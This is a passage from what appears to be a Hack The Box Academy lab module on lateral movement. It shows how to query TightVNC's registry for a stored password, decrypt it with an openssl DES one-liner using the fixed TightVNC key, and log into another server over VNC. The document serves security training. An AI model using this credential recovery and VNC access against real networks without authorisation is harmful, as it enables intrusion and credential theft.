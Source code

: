 ComputerName     : SRV02
RemoteAddress    : 172.20.0.52
RemotePort       : 5900
InterfaceAlias   : Ethernet1
SourceAddress    : 172.20.0.51
TcpTestSucceeded : True
</code></pre>
<p>To use VNC, we need credentials. Administrators often use shared passwords across multiple computers to facilitate VNC administration. If we gain administrative rights on a computer with VNC installed, we can retrieve the password from the registry keys if it is not encrypted and use it if configured on other machines.</p>
<p>We can use the repository <a href="https://github.com/frizb/PasswordDecrypts">PasswordDecrypts</a> to search for the registry keys that common VNC software uses. In our case, we will search for TightVNC registry keys and find the key <code>Password</code>. Let's connect to <code>SRV02</code> where we have Administrators's rights using Helen credentials.</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; reg query HKLM\SOFTWARE\TightVNC\Server /s

HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server
    ExtraPorts    REG_SZ
    QueryTimeout    REG_DWORD    0x1e
    QueryAcceptOnTimeout    REG_DWORD    0x0
    LocalInputPriorityTimeout    REG_DWORD    0x3
    LocalInputPriority    REG_DWORD    0x0
    BlockRemoteInput    REG_DWORD    0x0
    BlockLocalInput    REG_DWORD    0x0
    IpAccessControl    REG_SZ
    RfbPort    REG_DWORD    0x170c
    HttpPort    REG_DWORD    0x16a8
    Password    REG_BINARY    816ECB5CE758EAAA
</code></pre>
<p>The password key is <code>816ECB5CE758EAAA</code>. To obtain the plaintext credentials, we can use Metasploit Framework and the ruby shell, or native Linux tools such as <code>xxd</code>, <code>openssl</code> and <code>hexdump</code>:</p>
<pre><code class="language-shell-session">[!bash!]$ echo -n 816ECB5CE758EAAA | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
00000000  56 4e 43 50 61 33 22 11                           |VNCFake1|
00000008
</code></pre>
<p>Now that we have extracted the credentials <code>VNCFake1</code>, we can attempt to use those credentials on a remote machine. Let's open <code>TightVNC viewer</code> and set the remote host to the target machine <code>SRV02</code>:</p>
<p><img alt="text" src="https://academy.hackthebox.com/storage/modules/263/tightvnc-srv02.png"/></p>
<p>If we are lucky, we might find a privileged account logged into the server:</p>
<p><img alt="text" src="https://academy.hackthebox.com/storage/modules/263/tightvnc-srv02-admin.png"/></p>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> Only the console session can be captured when using VNC. </p>
</div>
</div>
<h2>Lateral Movement Using TightVNC from Linux</h2>
<p>To perform lateral movement using TightVNC from a Linux machine, we will install <code>xtightvncviewer</code>, though any other compatible software can be used:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo apt-get install xtightvncviewer
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following additional packages will be installed:
  tightvncpasswd
...SNIP...
</code></pre>